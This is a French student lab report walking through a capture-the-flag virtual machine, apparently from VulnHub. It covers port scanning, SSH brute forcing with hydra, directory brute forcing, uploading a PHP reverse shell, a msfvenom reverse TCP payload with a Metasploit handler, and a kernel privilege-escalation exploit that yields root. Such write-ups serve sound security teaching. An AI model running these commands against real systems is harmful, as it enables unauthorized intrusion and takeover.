# Rapport du TP5

On commence par scanner toutes les machines présentes sur le réeau afin d'obtenir l'adresse ip de la machine cible.
`sudo netdiscover -r 10.0.2.0/24`


On obtiens l'adresse ip suivante : 10.0.2.8

On peut donc faire un scan nmap pour identifier les ports ouverts de la machine cible.
`nmap -sC -sV -A -p- 10.0.2.8`



Il y a 4 port ouverts : le 22, le 80, le 110 et le 143.

## Port 22

Le port 22 correspond à du ssh.

J'ai tenté de faire une attaque brut force avec hydra, sans succès...

`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://10.0.2.8`



## Port 80

Le port 80 correspond à un serveur web. Je me rend donc à l'url 10.0.2.8 et je tombe sur la page par défaut du serveur apache.



En observant la page attentivement et en inspectant le code source de celle-ci, je ne trouve aucun indice particulier.

La page vulnhub indique que nikto est sensible à la casse. J'en déduis donc que cette machine contient des fichiers potentiellement en majuscules.

`nikto -h 10.0.2.8`



Je n'ai rien trouvé de spécial en faisant ce scan, mais après queques essais aléatoires (notamment 10.0.2.8/robots.txt), j'ai finalement tapé l'url `10.0.2.8/ROBOTS.TXT` qui m'a amené sur cette page où on peut lire "disallow: upload/".



Et en déscendant un peu :



En essayant de me rendre à l'url `10.0.2.8/igmseklhgmrjmtherij2145236` j'obtiens un message d'erreur "Forbidden".

Je vais essayer de réaliser une attaque brute force sur le répertoire "igmseklhgmrjmtherij2145236" en utilisant l'outil gobuster (qui permet de faire des attaques brute force sur des repertoires et fichiers cachés).

En tapant la commande, je spécifie les extensions .txt et .php que gobuster va tester lors de sa recherche.

`gobuster dir -u http://10.0.2.8/igmseklhgmrjmtherij2145236/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php`



On constate que gobuster trouve un fichier "upload.php" avec un statut 200, donc accessible depuis ma machine.

Je me rend à l'url `http://10.0.2.8/igmseklhgmrjmtherij2145236/upload.php` et je tombe sur une mini page web dans laquelle je peux upload un fichier.

Comme dans le tp4, on peut utiliser un script PHP contenant un reverse payload. Ce script va établir une connexion vers l'adresse IP 10.0.2.4 (l'ip de ma machine hote) sur le port (1234).

On va faire une copie d'un payload préinstallé sur la machine sur mon Bureau.

`cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/script.php`



Maintenant, à l'url `10.0.2.8/igmseklhgmrjmtherij2145236/upload.php `, je peux upload le payload PHP "script.php".

Je peux maintenant ouvrir une connexion netcat qui va écouter sur le port 1234 de la machine hote. L'option -l permet d'écouter sur le port 1234 (listen), l'option -v ajoute de la verbosité et l'option -p permet de spécifier le port.

`nc -lvp 1234`

Notre connexion netcat est ouverte, le fichier a bien été upload, mais où a t-il été upload ? On se rappelle qu'il exite un dossier /upload.

J'essaye donc d'accéder au fichier "script.php" qui pourrait être contenu dans le dossier upload : `10.0.2.8/igmseklhgmrjmtherij2145236/upload/script.php`
Dans mon terminal, on observe que netcat reçoit la connexion et je peux accéder au shell.



En faisant un `ls -l` je trouve un fichier `hint.txt` (indice)



Je fais donc un `cat hint.txt` pour le lire :



On peut y lire une sorte d'énigme, qui indique qu'il est possible d'obtenir un accès root par ici.

En bas on observe 3 suites de caractères :

"++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.>++++.---.<<++.>>+++++++++.---------.+++++++++++++++++++.----.<<.>>------------.+.+++++.++++++.<<.>>-----------.++++++++++.<<.>>-------.+++.------------.--.+++++++++++++++++++.---------------.-.<<.>>+++++.+++++.<<++++++++++++++++++++++++++.", D'après ChatGPT, ceci est un message codé en brainfuck, un langage de programmation minimaliste souvent utilisé pour des énigmes. On peut utiliser un décodeur de brainfuck sur internet pour obtenir le message suivant : "The next hint is located in:" ("l'indice suivant se trouve dans :"). Pour l'instant, cela ne nous aide pas trop.

"Tm8gaGludHMgaGVyZSAhCg==", est un message encodé en Base64 et que je peux traduire en allant sur un décodeur de base64. Cela sgnifie "No hint here !" ("pas d'indice ici"), je passe donc au suivant.

"KNSWC4TDNAQGM33SEB2G6ZDPOMXA====", est encodé en Base32 et se traduit par "Search for todos." ("Rechercher des choses à faire.").

J'essaye de chercher todos : `find / -name todos` j'obtiens un grand nombre de fichier et repertoires mais je n'ai accès à aucun d'entre eux (permission denied).

En allant dans le repertoire /home, je peux voir 2 repertoire : anna et thomas. Le repertoire anna est innaccessible (permission denied). En revanche, je peux me rendre dans le repertoire thomas. En tapant la commande `ls -la` qui permet d'avoir beaucoup d'informations sur le contenu du repertoire (y compris les fichiers cachés), on trouve un fichier ".todo".



En regardant le contenu de ce fichier, je vois 2 messages qui peuvent être des indices :

- "add an exclamation mark to my passwords"
- "learn to read emails without a gui-client !!!"



Je retiens ces indices qui pourraient me servir par la suite.

On peut utiliser msfvenom, un outil de metasploit pour générer un reverse payload TCP. LHOST correspont à l'adresse ip de ma machine kali. On va écouter sur le port 4321. Le format de ce payload sera elf, qui correspond à un fichier executable sur linux.



Puis j'ai upload ce payload sur la page `10.0.2.8/igmseklhgmrjmtherij2145236/upload.php`, de la même mannière que pour le payload tout à l'heure. Ainsi, le fichier se retrouve sur la machine cible.



Dans le terminal de la machine cible, on peut vérifier l'existance du payload dans le dossier `ls -la /var/www/html/igmseklhgmrjmtherij2145236/upload/`



On va déplacer ce fichier dans le dossier tmp pour pouvoir le manipuler.

`mv /var/www/html/igmseklhgmrjmtherij2145236/upload/escalate_payload.elf /tmp`

Puis on accorde des droits d'execution `chmod +x escalate_payload.elf`

Dans un terminal metaspoit (msfconsole), on va utiliser le module multi/handler qui permet de traiter les connexions de reverse shell. `use multi/handler`

On définit maintenant le payload que l'on souhaite utiliser `set payload linux/x86/meterpreter/reverse_tcp`

En affichant les options, on constate que LHOST (qui spécifie l'IP de la machine attaquante, donc kali) n'est pas définie. On va donc la définir avec l'IP de la machine kali (`set lhost 10.0.2.4`).



On va également redéfinir LPORT (qui par défaut n'a pas la valeur que je souhaite) pour faire correspondre le numéro de port avec celui définit lors de la génération du payload (`set lport 4321`).

On execute la commande `run`, msfconsole se met à écouter sur le port 4321 de la machine.

Sur la machine cible, on va maintenant executer le payload. Metasploit reçoit le payload et nous indique qu'une session est maintenant ouverte.



On utillise maintenant la commande `search suggester` qui analyse la configuration et les versions des logiciels du système cible pour recommander des exploits potentiellement utilisables.



Metasploit nous suggère un exploit que l'on va utiliser `use 0` (pour séléctionner l'exploit post/multi/recon/local_exploit_suggester)

Dans les options, on constate qu'aucune session n'est séléctionnée. On va donc lui indiquer d'utiliser la session 1 que l'on sait ouverte actuellement. `set session 1`

On peut désormais `run` l'exploit.



Cela nous propose une liste d'exploit à utiliser. Je choisi le premier : `use exploit/linux/local/bpf_priv_esc`.

On définit une nouvelle fois lhost et lport (avec un numéro de port différent du précédent), ainsi que la session à utiliser (session 1).

On peut lancer l'exploit `run`, une nouvelle session est créée. Je lance un shell et je peux constater que je suis bien utilisateur root avec la commande `id`.



En me rendant dans le dossier /root, je peux afficher le flag.



## Port 110

Le port 110 est associé au protocole POP3 qui permet de récéptionner des mails depuis un serveur distant. Je ne l'ai pas testé étant donné que le port 80 m'a déjà permis de passer root (et que ça m'a pris beaucoup de temps 😅).

## Port 143

Le port 143 est utilisé pour le protocole IMAP qui permet d'accéder à des emails sur un serveur de messagerie. Je ne l'ai pas testé non plus.
